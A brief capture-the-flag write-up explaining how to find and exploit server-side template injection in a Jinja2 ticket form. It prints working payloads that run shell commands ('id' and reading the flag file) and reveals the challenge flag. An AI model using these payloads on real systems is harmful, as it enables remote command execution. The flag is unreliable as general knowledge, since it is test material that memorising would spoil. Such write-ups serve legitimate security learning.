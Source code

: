 Observe that the challenge is hinting at "SSTI" with the initial letters in the title "Simple Submit Ticket Interface".

Try fuzzing the name field with the generic SSTI payload by PortSwigger:
`${{<%[%'"}}%\`
https://portswigger.net/web-security/server-side-template-injection

Observe the Jinja2 template error:
![1.png](./screenshots/1.png)

Look for SSTI payloads for Jinja2, and try the following payload from PayloadsAllTheThings:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread

Use the following payload to read the flag:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag/flag.txt').read() }}`

Flag: `SUCTF{rc3_f0r_7h3_m0d3rn_w3b_4pp}`